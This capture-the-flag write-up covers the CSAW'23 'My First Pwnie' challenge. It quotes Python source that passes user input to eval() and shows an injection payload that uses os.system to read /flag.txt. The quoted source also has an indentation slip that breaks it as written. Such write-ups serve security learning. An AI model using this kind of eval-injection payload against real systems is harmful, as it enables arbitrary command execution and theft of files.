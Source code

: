 
# My First Pwnie
We are given nc command and the python src file.
```
nc intro.csaw.io 31137
```
Here's a look at the output

![](https://github.com/0xNev/CTF-Writeups/blob/main/csaw23/my_first_pwnie/1.png?raw=true)


The program asks for a password, not sure what else so lets take a look the src file.
  
```python
try:
	response = eval(input("What's the password? "))
	print(f"You entered `{response}`")
if response == "password":
	print("Yay! Correct! Congrats!")
	quit()
except:
	pass

print("Nay, that's not it.")
```
The program is checking if the password is equal to 'password' and if so it quits the application.

It is important to notice that the input is being run on a eval, running eval on an input we control is dangerous.

By crafting a malicious input we could possibly gain control over the machine, so lets try that.

After some testing I got the following to work for me
```python
__import__("os").system("cat /flag.txt")
```


![](https://github.com/0xNev/CTF-Writeups/blob/main/csaw23/my_first_pwnie/2.png?raw=true)

 
